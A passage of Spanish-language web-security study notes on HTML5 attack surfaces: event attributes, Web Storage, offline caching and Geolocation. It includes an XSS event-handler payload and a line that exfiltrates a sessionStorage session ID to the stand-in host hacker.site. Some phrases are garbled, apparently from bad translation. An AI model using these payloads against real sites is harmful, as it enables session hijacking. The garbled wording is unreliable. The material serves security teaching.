> Todos ellos apoyan a Global y Event Attributes, tanto antiguos como nuevos.

### Attributes

Hay una enorme lista de nuevos eventos y algunos ejemplos interesantes son:

```js
onhashchange
onformchange
onscroll
onresize
...
```

Ejemplo:

```js
<body onhashchange="alert(1)">
  <a href="#"> Click me</a>
```

### Offile & Storage

A real world example is _TiddlyWiki_: http://tiddlywiki.com/

* Algunas de las principales características, relacionadas con esta evolución son **Application Cache** y **Web Storage** (alias Client-Side Storage o Offile storage)

## Web Storage -- Attack Scenarios

Los escenarios de ataque pueden variar de **Sestubiando de la tensión, rastreo de usuarios, revelación de datos confidenciales**, así como una nueva forma de **tremos vectores de ataque**.

### Session Hijacking

Si un dev elige almacenar identificaciones de sesión mediante el uso de **sessionStorage** en lugar de cookies, todavía es posible realizar el secuestro de sesiones aprovechando un fallo XSS.

```js
new Image().src="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
// usually was document.cookie
```

Las soluciones de almacenamiento en la Web no aplican mecanismos de seguridad para mitigar el riesgo de acceso malicioso a la información almacenada (véase HttpOnly)

### Offline Web Application -- Attack Scenarios

* Con las aplicaciones Web Offline, el problema de seguridad más crítico es **Cache Poisoning**.
* Las aplicaciones de archivo también pueden almacenar recursos SSL y el directorio raíz de un sitio web.

### Device Access

Una característica introducida por las especificaciones HTML5 es **Geolocation API**
